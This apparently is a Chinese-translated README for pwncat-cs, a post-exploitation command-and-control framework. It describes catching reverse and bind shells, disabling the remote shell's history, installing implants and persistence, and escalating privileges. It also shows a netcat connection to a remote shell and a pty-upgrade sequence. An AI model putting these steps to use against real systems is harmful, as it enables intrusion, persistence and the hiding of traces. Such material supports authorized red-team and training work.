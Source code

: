 # pwncat-cs

官网地址 --> [Github](https://github.com/calebstewart/pwncat)

## 简介

pwncat 是一个后渗透平台 ~~用于 Linux 目标~~. 它最初是作为基本绑定和反向 shell 的包装器，并从那里发展起来。它简化了常见的红队操作，同时从攻击者机器而不是目标上暂存代码。

pwncat 以前只支持Linux，但是最近做了很多工作来支持多平台。目前，**有对 Windows 目标的 alpha 支持**。有关如何在 Windows 目标上使用 pwncat 的详细信息，请参阅最新[文档](https://pwncat.readthedocs.io/en/latest)。

pwncat 拦截与远程 shell 的原始通信，并允许用户在远程主机上执行自动化操作，包括枚举、植入安装甚至权限提升。

收到连接后，pwncat 将设置一些常用配置以使用远程 shell。

* **在远程 shell 中禁用历史记录**
* 规范化 shell 提示
* 找到有用的二进制文件（使用`which`）
* 尝试为完整的交互式会话生成伪终端 (pty)

`pwncat`知道如何使用几种不同的方法生成 pty，并将交叉引用与先前枚举的可执行文件的方法。生成 pty 后，它将以原始模式设置控制终端，因此您可以以类似于`ssh`.

`pwncat`还将远程 pty 设置（例如行、列、`TERM`环境变量）与您的本地设置同步， 以确保 shell 与交互式应用程序（例如`vim`或 ）正确运行`nano`。

John Hammond 和我`pwncat`在 GRIMMCon 上发表了演讲。我们的演示文稿，可在[此处](https://www.youtube.com/watch?v=CISzI9klRkw)在 YouTube 上[找到](https://www.youtube.com/watch?v=CISzI9klRkw)。该视频演示了 API 和界面的早期版本。请参阅文档以获取最新用法和 API 文档！

<mark style="color:red;">**pwncat 在 Linux 上需要 Python 3.9+**</mark>

pwncat 是一个命令和控制框架，它将基本的反向或绑定 shell 变成一个功能齐全的开发平台。初始连接后，框架将探测远程系统以识别目标系统上本机可用的有用二进制文件。然后它将尝试在远程主机上启动一个伪终端并为您提供原始终端访问。

不过，pwncat 并不止于此。除了原始终端访问之外，pwncat 还可以在终端访问的同时以编程方式与远程主机交互。pwncat 为您提供了一个本地 shell 接口，它可以利用您的连接进行枚举、文件上传/下载、自动持久性安装甚至自动提权

## 使用原因

您可能熟悉使用反向 shell 获取原始终端访问权限的常用方法。它通常是这样的：

```bash
# 连接到远程绑定shell
nc 1.1.1.1 4444
# 生成远程伪终端
remote$ python -c "import pty; pty.spawn('/bin/bash')"
# Background your raw shell
remote$ C-z
# Set local terminal to raw mode
local$ stty raw -echo
# Foreground your remote shell
local$ fg
# You now have a full terminal that doesn't exit on C-c and
# supports keyboard shortcuts, history, graphical terminal
# applications, etc.
remote$
```

这很好用。然而，一段时间后，获得反向shell的附加步骤很费力**。**<mark style="color:red;">**此外，在获得原始访问权限之前不小心按“Cc”而丢失远程 shell 的风险很高**</mark>。这是这个项目的最初灵感。

## 安装

```bash
pip3 install pwncat-cs
```

```bash
$ pwncat-cs --help
usage: pwncat-cs [-h] [--version] [--download-plugins] [--config CONFIG] [--ssl] [--ssl-cert SSL_CERT]
                 [--ssl-key SSL_KEY] [--identity IDENTITY] [--listen] [--platform PLATFORM] [--port PORT] [--list]
                 [[protocol://][user[:password]@][host][:port]] [port]

启动交互式 pwncat 会话，并可选择通过已知平台和通道类型连接到现有受害者。 此入口点还可用于列出先前目标上的已知植入程序。

positional arguments:
  [protocol://][user[:password]@][host][:port]
                        Connection string describing victim
  port                  支持 netcat 样式语法的备用端口号

optional arguments:
  -h, --help            show this help message and exit
  --version, -v         Show version number and exit
  --download-plugins    预下载所有 Windows 内置插件并立即退出
  --config CONFIG, -c CONFIG
                        自定义配置文件（默认：./pwncatrc）
  --ssl                 使用 SSL 连接或收听
  --ssl-cert SSL_CERT   SSL 加密侦听器 (PEM) 的证书
  --ssl-key SSL_KEY     SSL 加密侦听器 (PEM) 的密钥
  --identity IDENTITY, -i IDENTITY
                        用于 SSH 身份验证的私钥
  --listen, -l          启用 `bind` 协议（支持 netcat 风格的语法）
  --platform PLATFORM, -m PLATFORM
                        要使用的平台名称（默认值：linux）
  --port PORT, -p PORT  指定端口以支持 netcat 样式语法的替代方法
  --list                列出具有远程连接功能的已安装植入物
```

## 基本用法

在 pwncat 中与受害者交互时有两种主要的操作模式：远程和本地。在任何给定时间，提示将包括`(local)`或`(remote)`以指示当前模式。使用本地模式时，您可以访问特定于 pwncat 的命令，例如上传、下载、使用、运行和退出。在远程模式下，您可以访问特定于平台的 shell 环境（例如 bash 或 powershell）。

要在这些模式之间切换，您可以使用`C-d`组合键。在远程模式下，此组合在发送到目标之前被 pwncat 拦截。如果需要将`C-d` 组合直接发送到目标，可以使用`C-k`前缀。前缀`C-d`或`C-k`with `C-k`将告诉 pwncat 将文字`C-d`或`C-k`序列发送到目标

